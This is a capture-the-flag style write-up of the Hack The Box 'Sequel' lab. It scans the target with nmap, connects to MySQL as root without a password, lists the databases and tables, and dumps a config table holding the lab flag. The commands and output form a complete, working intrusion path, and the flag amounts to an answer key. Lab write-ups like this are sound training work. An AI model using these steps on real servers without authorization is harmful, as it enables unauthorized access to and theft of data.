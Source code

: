 ```toc
```
# HTB Notes - Sequel #

+ **Date**: 12-8-2022
+ **Author**: Noah Soqui
+ **Tags**: #SQL #MySQL

## Intelligence Gathering ##

Scanning machine
+ `nmap -sV -sC 10.129.238.21`
+ Output:
``` Shell
Nmap scan report for 10.129.238.21
Host is up (0.044s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
```

## Misconfiguration and Vulnerability Analysis  ##

Can authenticate to the mysql databases without a password using the username "root".

## Exploitation ##

Connect to the SQL database
+ `sudo mysql -u root -h 10.129.238.21` 

## Post Exploitation ##

Look for the database
+ `show databases;`
``` MySQL
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
```

Connect the the <mark style="background: #BBFABBA6;">htb</mark> database and see available tables 
+ `use htb;`
+ `show columns;`
``` MySQL
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
```

Display the <mark style="background: #FFF3A3A6;">config</mark> table to look for the flag 
``` MySQL
MariaDB [htb]> select * from config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
```

## Reporting ##

### Executive Summary ###

MySQl is an implementation of SQL that uses the `mysql` utility to connect to. Navigating the database uses the SQL language, which consists of databases containing tables, and tables containing columns. After connecting with no password, can simply navigate to the flag.


